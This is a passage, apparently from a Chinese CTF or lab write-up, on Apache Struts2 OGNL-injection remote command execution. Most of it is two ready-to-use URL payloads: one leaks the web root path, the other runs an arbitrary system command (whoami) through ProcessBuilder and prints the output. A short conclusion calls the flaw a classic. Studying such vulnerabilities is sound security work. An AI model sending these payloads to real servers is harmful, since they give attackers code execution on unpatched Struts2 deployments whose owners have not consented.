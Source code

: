 ```
/(##_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)?(##req=##context.get(##parameters.a[0]),##resp=##context.get(##parameters.b[0]),##resp.setCharacterEncoding(##parameters.c[0]),##ot=##resp.getWriter (),##ot.print(##parameters.e[0]+##req.getSession().getServletContext().getRealPath(##parameters.d[0])),##ot.flush(),##ot.close):xx.toString.json?&a=com.opensymphony.xwork2.dispatcher.HttpServletRequest&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=UTF-8&d=/&e=webpath:
```
######## 执行系统命令

```
/(##_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)?(##a=(new java.lang.ProcessBuilder(##parameters.a[0])).start(),##b=##a.getInputStream(),##c=new java.io.InputStreamReader(##b),##d=new java.io.BufferedReader(##c),##e=new char[50000],##d.read(##e),##matt=##context.get(##parameters.b[0]),##matt.getWriter().println(##parameters.c[0]+new java.lang.String(##e)),##matt.getWriter().flush(),##matt.getWriter().close()):xx.toString.json?&a=whoami&b=com.opensymphony.xwork2.dispatcher.HttpServletResponse&c=flag:
```

## 总结
Struts2命令执行算是一个比较经典的漏洞了，希望以后深入java的一些框架，可以从底层来分析：）








